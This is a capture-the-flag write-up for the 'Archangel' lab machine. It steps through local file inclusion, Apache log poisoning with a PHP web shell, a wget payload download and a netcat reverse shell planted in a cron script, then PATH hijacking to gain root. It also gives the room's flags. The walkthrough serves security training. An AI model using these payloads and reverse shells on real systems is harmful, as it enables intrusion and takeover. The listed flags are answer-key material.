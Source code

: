 # Archangel
## 12-06-2022
## level : easy

## Get a Shell

> we need to add the domain name into our `hosts` file
```
sudo nano /etc/hosts
```
> then add the following line at the end of the file
```
10.10.6.140 mafialive.thm
```

> now just open the domain in browser and we can see the flag 1
> now let's use `gobuster` to search for files and folders within the site
```
gobuster dir -u mafialive.thm -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
> as we have tried all the lfi techniques but the `base64-encoding` one works. we will now see the source code for the pages
```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```
> in the code we can see that the flag is commented out.

> to use lfi we will use `..//..//` instead of `../../` this will bypass the php file protection
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../etc/passwd
```

> now we intercept the request to burp and upload a payload using the user agent.
```
<?php system($_GET['cmd']) ?>
```
> we downloaded a php reverse shell payload and changed the ip to our local machine vpn ip and set the port to 1234.

> now we will upload a php reverse shell to the target. first we will start a local server
```
sudo python -m http.server 80
```
> now to upload the file we will browse this link 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=wget%20http://10.17.48.110/shell.php
```

> now after uploading the file we will start a netcat listener on our local machine.
```
nc -lvnp 1234
```
> now to get a reverse shell we will just browse the following link
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=php%20shell.php
```

> now as we got the shell into our target. lets stabilize it
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm-color

```
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Find a different hostname | mafialive.thm |
| Find Flag 1 | thm{f0und_th3_r1ght_h0st_n4m3} |
| Look for a page under development | test.php |
| Find flag 2 | thm{explo1t1ng_lf1} |
| Get a shell and find the user flag | thm{lf1_t0_rc3_1s_tr1cky} |



## Root the machine

> so after having the first shell into the target we have looked into the crontab file and it works for us.
```
cat /etc/crontab

```
> now we noticed that there is a file that is running every minute in the crontab file.
> we wrote some payload into the crontab file 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.48.110 4444 >/tmp/f" > /opt/helloworld.sh
```
> now in our local machine just open a new netcat listener on the port`4444` and wait for a few minute to run the cronjob.
```
nc -lvnp 4444
```
> after getting the shell lets now stabilize the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-color

```

> now we have got a shell as the `archangel` user.

> now inside the `secret` folder we can see that there is a binary which is running the `cp` command. so now let's use the file and manipulate the path to escalate the privileges.

> lets create a local file named `cp` and make this file executable
```
echo "/bin/bash" > cp

chmod +x cp
```

> lets manipulate the path variable
```
export PATH=.:$PATH
```

> now if we run the `backup` file it will now run the `cp` command from current direcroty instead of the original one and we will have the root privileges.







| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Get User 2 flag | thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n} |
| root flag | thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n} |






# -----------------------    THE END    -----------------------
